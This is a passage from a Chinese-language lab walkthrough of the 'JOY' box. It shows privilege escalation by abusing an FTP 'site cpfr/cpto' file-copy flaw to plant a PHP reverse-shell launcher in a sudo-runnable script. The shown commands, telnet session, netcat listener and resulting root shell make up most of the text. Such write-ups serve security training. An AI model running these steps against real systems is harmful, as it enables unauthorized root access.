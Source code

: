有了密码直接sudo -l，看样子可以直接利用这个test文件提权了，但是这个目录无法访问，没有权限  
  
![image-20250204225438901](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH8MpNCia3Aa7ficRHkibbxGHyOMbz7V8au8xo29iaAK0gMldP5jePUCuSmYNDwqhDibM2W58koJlQBt2w/640?wx_fmt=png&from=appmsg "")  
  
image-20250204225438901  
  
不要忘了我们怎么进来的，这里可以利用刚刚的任意文件复制漏洞，进行复制呀  
```
cd ~
echo 'php /var/www/tryingharderisjoy/php-reverse-shell.php' > test

```  
  
kali  
```
┌──(root㉿kali)-[~]
└─# telnet 10.10.10.198 21
Trying 10.10.10.198...
Connected to 10.10.10.198.
Escape character is '^]'.
220 The Good Tech Inc. FTP Server
site cpfr /home/patrick/test
350 File or directory exists, ready for destination name
site cpto /home/patrick/script/test
250 Copy successful
quit
221 Goodbye.
Connection closed by foreign host.

```  
  
靶机提权即可  
```
 sudo /home/patrick/script/test

```  
  
kali  
```
┌──(root㉿kali)-[~]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.10.128] from (UNKNOWN) [10.10.10.198] 44710
Linux JOY 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
 23:13:50 up  2:28,  0 users,  load average: 0.04, 0.05, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off# whoamiroot#
```  
  
至此提权成功  
## 往期推荐  
  
[首发 | 告别WPS会员，一天用deekseep手搓PDF工具箱，用过之后，真香！！](https://mp.weixin.qq.com/s?__biz=Mzg2Nzk0NjA4Mg==&mid=2247499027&idx=1&sn=538aa1a762c2cc59c97d434a7104c027&scene=21#wechat_redirect)  
  